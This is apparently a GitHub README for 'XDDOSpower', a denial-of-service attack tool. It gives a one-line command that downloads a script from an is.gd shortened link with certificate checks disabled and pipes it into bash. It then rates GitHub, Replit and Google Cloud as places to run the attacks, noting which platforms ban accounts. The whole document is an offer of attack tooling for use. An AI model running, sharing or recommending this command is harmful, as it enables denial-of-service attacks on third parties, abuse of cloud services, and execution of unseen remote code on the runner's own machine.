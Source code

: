 # XDDOSpower

XDDOS no lag in attacker
cloud google is best XDDOS

[thank AnAverageBeing](https://github.com/AnAverageBeing/XDDOS)
# command
```
curl -sLkO https://is.gd/XDDOS1 ; bash XDDOS1

```

# run command in
github (XDDOS best but ban acc)

replit (XDDOS Normal but no ban)

cloud google (super super bad no ban)
